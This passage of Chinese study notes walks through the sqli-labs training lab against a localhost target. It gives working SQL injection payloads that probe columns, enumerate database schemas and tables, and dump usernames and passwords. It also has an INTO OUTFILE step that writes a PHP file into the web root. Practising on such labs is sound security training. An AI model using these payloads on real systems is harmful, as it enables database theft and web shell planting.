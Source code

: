 ​    5.3AUTH(登录认证型)

**6.基于sql语句结构** 

​    where 

​    order by 

**7.另类注入** 

​    7.1宽字节注入

​    7.2编码变形



#Page-1 (Basic Injections)



##第1关 

报错注入 

源码：$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1”; 

时间盲注：http://127.0.0.1/sqli-labs/Less-1/?id=1' and sleep(5) and 'abc'='abc 

http://127.0.0.1/sqli-labs/Less-1/?id=1' order by 3 — a 

http://127.0.0.1/sqli-labs/Less-1/?id=-9670' UNION SELECT NULL,database(),NULL — - 

http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata -- - 

http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security';-- - 

http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users';-- - 

http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,group_concat(username,0x5e,password),3 from users;-- - 

**写shell**

http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,2,0x3c3f70687020706870696e666f28293b203f3e into outfile '//Applications/XAMPP/htdocs/onlytest/shell.php' -- - 





##第2关 

报错注入 

数字类型注入，不用闭合双引号 

http://127.0.0.1/sqli-labs/Less-2?id=-1 UNION select null,database(),null-- - 



##第3关 

报错注入 单引号括号注入 
